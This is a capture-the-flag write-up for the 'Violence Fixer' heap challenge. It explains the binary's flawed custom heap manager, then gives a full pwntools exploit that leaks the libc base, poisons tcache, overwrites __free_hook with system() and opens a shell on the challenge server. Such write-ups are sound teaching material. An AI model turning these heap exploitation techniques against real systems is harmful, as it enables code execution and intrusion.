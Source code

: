 # Violence Fixer  

## Abstraction  
This binary is a really simplified heap management system. It tries to manage chunks in a heap without libc heap management system, but it collapses easily by free().  
  
## Bugs  
When you free a small chunk right before top, it would be connected to tcache. However, this system misrecognize that this chunks would be consolidated with top. In addition to it, when you free a chunk in the middle of heap, this system also collapses and just substructs the size of the freed chunk from top.  So there are so much vulnerability to pwn easily.  

## Rough Overview of Exploit  
You can easily leak the libcbase by reading the content of a freed unsorted chunk. And this system allows you to use an original heap management system only once in delegate(). So, you can use it to overwrite \_\_free\_hook into system().  

## Exploit
```python
#!/usr/bin/env python
#encoding: utf-8;

from pwn import *
import sys
import time

FILENAME = "../dist/violence-fixer"
LIBCNAME = "../dist/libc.so.6"

hosts = ("test","localhost","localhost")
ports = (32112,12300,32112)
rhp1 = {'host':hosts[0],'port':ports[0]}    #for actual server
rhp2 = {'host':hosts[1],'port':ports[1]}    #for localhost 
rhp3 = {'host':hosts[2],'port':ports[2]}    #for localhost running on docker
context(os='linux',arch='amd64')
binf = ELF(FILENAME)
libc = ELF(LIBCNAME) if LIBCNAME!="" else None


## utilities #########################################

def hoge(ix):
  c.recvuntil("> ")
  c.sendline(str(ix))

def alloc(size,content):
  hoge(1)
  c.recvuntil("size: ")
  c.sendline(str(size))
  c.recvuntil("content: ")
  c.send(content)

def show(index):
  hoge(2)
  c.recvuntil("index: ")
  c.sendline(str(index))

def free(index):
  hoge(3)
  c.recvuntil("index: ")
  c.sendline(str(index))

def get_value(index):
  hoge(4)
  for i in range(index):
    c.recvuntil("INUSE")
  c.recvuntil("INUSE\n ")
  return c.recv(8)

def delegate(size,content):
  hoge(0)
  c.recvuntil("> ")
  c.sendline('y')
  c.recvuntil("size: ")
  c.sendline(str(size))
  c.recvuntil("content: ")
  c.send(content)

## exploit ###########################################

def exploit():
  global c
  c.recvuntil("?: ")
  c.sendline("y")

  # prepare
  alloc(0x200,"1"*0x30)
  alloc(0x200,"2"*0x30)
  alloc(0x200,"3"*0x30)
  alloc(0x200,"4"*0x30)
  alloc(0xa0,"5"*0x30)
  alloc(0x200,"4"*0x30)
  alloc(0x1e0,"4"*0x30)
  alloc(0x1e0,"4"*0x30) # TARGET
  alloc(0x1e0,"5"*0x30)
  alloc(0x1e0,p64(0x21)*(0x1e0//8))
  alloc(0x1e0,"7"*0x10)
  alloc(0xc0,"8"*0x10)
  alloc(0x10,"9"*0x10)

  # leak libcbase
  free(1)
  free(2)
  free(3)
  free(4)
  free(5)
  alloc(0x60,p8(0)*0x30 + p64(0) + p64(0x481))
  free(7)
  for i in range(4):
    alloc(0x10,p8(1))
  alloc(0x160,"A"*0x160)

  show(7)
  c.recvuntil("A"*0x160)
  libcbase = unpack(c.recvline().rstrip().ljust(8,'\x00')) - 0x1ebbe0
  print("[+]libcbase: "+hex(libcbase))

  # tcache duplicate
  alloc(0x1f0,p8(0))
  alloc(0x80,p8(0)) 

  alloc(0x60,"1"*0x8) # At this point, exeeds a real top
  alloc(0x50,"/bin/sh;\x00")
  alloc(0x50,"3"*0x8)
  alloc(0x20,"4"*0x8)
  alloc(0x20,"5"*0x8)
  alloc(0x20,"6"*0x8)
  alloc(0x20,"7"*0x8) # 
  free(0xf)
  free(0x13)
  free(0x15)
  alloc(0x130,p64(0)+p64(0x31)+"A"*0x80+p64(0)+p64(0x31)+p64(libcbase + libc.symbols["__free_hook"]))
  alloc(0x20,p8(0))
  delegate(0x20,p64(libcbase+libc.symbols["system"]))

  free(0x10)
  return

## main ##############################################

if __name__ == "__main__":
    global c
    start_time = time.time()
    
    if len(sys.argv)>1:
      if sys.argv[1][0]=="d":
        cmd = """
          set follow-fork-mode parent
        """
        c = gdb.debug(FILENAME,cmd)
      elif sys.argv[1][0]=="r":
        c = remote(rhp1["host"],rhp1["port"])
      elif sys.argv[1][0]=="v":
        c = remote(rhp3["host"],rhp3["port"])
    else:
        c = remote(rhp2['host'],rhp2['port'])

    exploit()
    print("\n\n[!] exploit success: {} sec\n\n".format(time.time()-start_time))
    c.interactive()


```
